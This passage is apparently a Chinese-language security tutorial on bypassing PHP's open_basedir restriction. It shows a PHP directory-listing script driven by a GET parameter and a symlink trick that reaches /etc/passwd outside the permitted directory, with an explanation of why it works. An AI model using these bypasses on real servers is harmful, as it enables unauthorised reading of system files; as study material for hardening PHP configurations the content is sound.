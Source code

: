 - opendir()--&gt;打开目录
- readdir()-&gt;返回目录中下一个文件的文件名。文件名以在文件系统中的排序返回。

所以脚本如下

```php
<?php
$a = $_GET['c'];
if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```

### scandir()+glob://

关于这个解法我不打算去看因为这个也是好像绕不了open\_basedir的  
引用：“这种方法也只能列出根目录和open\_basedir允许目录下的文件。“

symlink绕过
=========

`symlink()`函数创建一个从指定名称连接的现存目标文件开始的符号连接。： <https://www.php.net/manual/zh/function.symlink.php>  
用法：  
symlink(string $target, string $link): bool

```php
<?php
mkdir("A");
chdir("A");
mkdir("B");
chdir("B");
mkdir("C");
chdir("C");
mkdir("D");
chdir("D");
chdir("..");
chdir("..");
chdir("..");
chdir("..");
symlink("A/B/C/D","SD");
symlink("SD/../../../../etc/passwd","POC");
unlink("SD");
mkdir("SD");
?>
```

这里的原理就是通过软连接作为一个桥梁来进行绕过  
具体的思路如下：

- 创建了A/B/C/D这个目录
- 创建SD软链接到目录A/B/C/D
- 然后让POC指向SD上面的目录这个时候因为返回后../../../../刚好回到open\_basedir限制的html目录下面所以这里没毛病
- 然后删除了SD软链接又创建了一个文件夹这个时候POC指向的就是:  
    **var/www/html/SD/../../../../etc/passwd**从而进行绕过（这个思路确实好玩）  
    exp

